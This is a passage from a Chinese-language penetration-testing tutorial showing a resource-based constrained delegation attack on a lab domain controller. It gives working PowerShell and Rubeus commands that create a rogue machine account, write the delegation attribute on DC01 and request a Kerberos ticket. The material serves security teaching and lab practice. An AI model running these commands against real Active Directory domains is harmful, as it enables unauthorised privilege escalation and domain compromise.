 ![](https://whoamianony.oss-cn-beijing.aliyuncs.com/img/ixNPClrDA6EM7tB.png)

（2）Marcus 用户对 DC01 完全控制，因此可以通过 Marcus 用户的权限修改并设置机器账户 DC01 的 msDS-AllowedToActOnBehalfOfOtherIdentity 属性。但此时还需要一个具有 SPN 的账户，以允许该账户对 DC01 上的服务进行委派。在域内，如果拥有一个普通的域用户，那么我们就可以利用这个用户创建新的机器帐户，并且默认最多允许创建 10 个机器账户，这是由域属性 `MachineAccountQuota` 决定的。

以 Marcus 用户用户权限执行 [Powermad.ps1](https://github.com/Kevin-Robertson/Powermad)，创建一个名为 PENTEST$，密码为 Passw0rd 的机器账户，相关命令如下。新建的机器账户将默认注册 `RestrictedKrbHost/domain` 和 `HOST/domain` 这两个 SPN。

```powershell
# 导入模块
Import-Module .\Powermad.ps1
# 设置机器账户的密码
$Password = ConvertTo-SecureString 'Passw0rd' -AsPlainText -Force
# 通过 New-MachineAccount 函数创建机器账户
New-MachineAccount -MachineAccount "PENTEST" -Password $($Password) -Domain "pentest.com" -DomainController "DC01.pentest.com" -Verbose
```

![](https://whoamianony.oss-cn-beijing.aliyuncs.com/img/RCsrS6cwDjqmEvz.png)

（3）接下来，我们通过 PowerView.ps1 配置 PENTEST 到 DC01 的基于资源的约束性委派，相关命令如下。

```powershell
# 导入模块
Import-Module .\PowerView.ps1
# 获取 PENTEST 账户的 SID
Get-NetComputer "PENTEST" -Properties objectsid
# 配置 PENTEST 到 DC01 的基于资源的约束性委派
$A = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-1536491439-3234161155-253608391-1109)"
$SDBytes = New-Object byte[] ($A.BinaryLength)
$A.GetBinaryForm($SDBytes, 0)
Get-DomainComputer DC01 | Set-DomainObject -Set @{'msDS-AllowedToActOnBehalfOfOtherIdentity'=$SDBytes} -Verbose
# 查看是否配置成功
Get-DomainComputer DC01 -Properties msDS-AllowedToActOnBehalfOfOtherIdentity
```

![](https://whoamianony.oss-cn-beijing.aliyuncs.com/img/RnwZXNUph4t8O67.png)

若想清除 msDS-AllowedToActOnBehalfOfOtherIdentity 属性的值，可以执行以下命令：

```powershell
Set-DomainObject DC01 -Clear 'msDS-AllowedToActOnBehalfOfOtherIdentity' -Verbose
```

（4）接下来就是传统约束性委派攻击的流程了。通过 Rubeus 申请机器账户 WIN10-CLIENT1 的 TGT，相关命令如下。执行后，将得到 Base64 加密后的 TGT 票据，如下图所示。

```console
C:\Users\Marcus\Desktop> Rubeus.exe asktgt /user:PENTEST$ /password:Passw0rd /domain:pentest.com /dc:DC01.pentest.com /nowrap

# /user 指定要申请 TGT 的账户名
# /password 指定机器账户 PENTEST$ 的哈希值密码
# /domain 指定域名
# /dc 指定域控制器
```
